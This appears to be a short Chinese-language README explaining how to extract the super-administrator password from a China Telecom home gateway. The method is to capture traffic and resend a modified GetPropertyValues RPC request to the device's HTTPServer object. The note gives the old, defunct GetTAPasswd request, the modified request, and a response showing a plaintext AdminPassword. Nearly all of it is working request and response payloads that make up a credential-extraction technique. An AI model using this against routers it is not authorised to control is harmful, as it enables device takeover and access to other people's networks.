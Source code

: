 老接口，已失效：
```
{ "Params": [], "MethodName": "GetTAPasswd", "RPCMethod": "CallMethod", "ObjectPath": "/com/ctc/igd1/Telecom/System", "InterfaceName": "com.ctc.igd1.SysCmd", "ServiceName": "com.ctc.igd1" }
```

#### 超密查询
抓包后搜索
```
GetPropertyValues
```

选一个，更改
"InterfaceName"
```
com.ctc.igd1.HTTPServer
```
"ObjectPath"
```
/com/ctc/igd1/Network/HTTPServer
```
返回抓包

抓包格式
```json
{  
    "Params": [  
        {  
            "InterfaceName": "com.ctc.igd1.HTTPServer",  
            "ObjectPath": "/com/ctc/igd1/Network/HTTPServer",  
            "Properties": [  
  
            ]  
        }  
    ],  
    "RPCMethod": "GetPropertyValues",  
    "SequenceId": "30134",  
    "ServiceName": "com.ctc.igd1"  
}
```
压缩一行显示：
```json
{"Params":[{"InterfaceName":"com.ctc.igd1.HTTPServer","ObjectPath":"/com/ctc/igd1/Network/HTTPServer","Properties":[]}],"RPCMethod":"GetPropertyValues","SequenceId":"30134","ServiceName":"com.ctc.igd1"}
```

返回数据
```json
{
  "Ack": "GetPropertyValues",
  "ID": "4c5f37f0-1278-7b99-8112-66d6d926d104",
  "Status": "0",
  "Params": [
    {
      "ObjectPath": "/com/ctc/igd1/Network/HTTPServer",
      "InterfaceName": "com.ctc.igd1.HTTPServer",
      "Properties": [
        {
          "AdminPassword": "CUAdminX4h~t7SJ"
        }
      ]
    }
  ],
  "SequenceId": "30134"
}
```
